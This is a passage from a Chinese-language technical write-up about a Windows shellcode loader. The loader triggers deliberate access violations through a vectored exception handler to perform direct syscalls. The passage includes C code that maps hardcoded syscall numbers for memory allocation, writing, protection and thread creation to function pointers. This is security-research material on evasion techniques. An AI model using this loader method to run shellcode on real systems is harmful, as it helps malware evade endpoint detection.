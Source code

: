 ```plain
// Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
```

## 异常触发

定义 VEH 函数后，必须找到一种方法来专门抛出`EXCEPTION_ACCESS_VIOLATION`异常。为此，所有原生 API（声明为指针）都通过对应的 SSN 直接在 shellcode 加载器中初始化。但是，由于定义为指针的变量（例如 `pNtAllocateVirtualMemory`）通常应指向内存地址而不是直接指向值，因此这会导致未授权的内存访问，从而通过`EXCEPTION_ACCESS_VIOLATION`触发 VEH 函数。

```plain
// Define syscall numbers for various NT API functions
enum syscall_no {
    SysNtAllocateVirtualMem = 0x18,    // Syscall number for NtAllocateVirtualMemory
    SysNtWriteVirtualMem = 0x3A,       // Syscall number for NtWriteVirtualMemory
    SysNtProtectVirtualMem = 0x50,     // Syscall number for NtProtectVirtualMemory
    SysNtCreateThreadEx = 0xC2,        // Syscall number for NtCreateThreadEx
    SysNtWaitForSingleObject = 0x4     // Syscall number for NtWaitForSingleObject
};

// Assign system call function pointers to their respective syscall numbers
_NtAllocateVirtualMemory pNtAllocateVirtualMemory = (_NtAllocateVirtualMemory)SysNtAllocateVirtualMem;
_NtWriteVirtualMemory pNtWriteVirtualMemory = (_NtWriteVirtualMemory)SysNtWriteVirtualMem;
_NtProtectVirtualMemory pNtProtectVirtualMemory = (_NtProtectVirtualMemory)SysNtProtectVirtualMem;
_NtCreateThreadEx pNtCreateThreadEx = (_NtCreateThreadEx)SysNtCreateThreadEx;
_NtWaitForSingleObject pNtWaitForSingleObject = (_NtWaitForSingleObject)SysNtWaitForSingleObject;
```

正如 cyberwarefare 的文章中所描述的，通过 SSN 初始化原生 API 的优点是可以有针对性地触发`EXCEPTION_ACCESS_VIOLATION`。另一方面，它的优点是 SSN 缓存在 rip 寄存器中，传递给向量异常处理程序，然后传递给 VEH 函数 `PvectoredExceptionHandler` 中的 rax 寄存器。

通过在 IDA 中进行调试，可以很好地看到这个过程。下图清楚地显示了尝试通过 SSN 初始化原生 API `NtAllocateVirtualMemory` `0x18`如何导致无效的内存访问尝试（[exc.code c0000005](https://stackoverflow.com/questions/17168982/exception-error-c0000005-in-vc)），从而引发访问冲突异常，传递到向量异常处理程序，将 `SSN 0x18`移动到 rip 寄存器，最后移动到 `rax` 寄存器。

[![](assets/1707954164-ef615cdac2c6259e01b6d872e69b349a.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240205005418-0933c6ca-c37e-1.jpg)
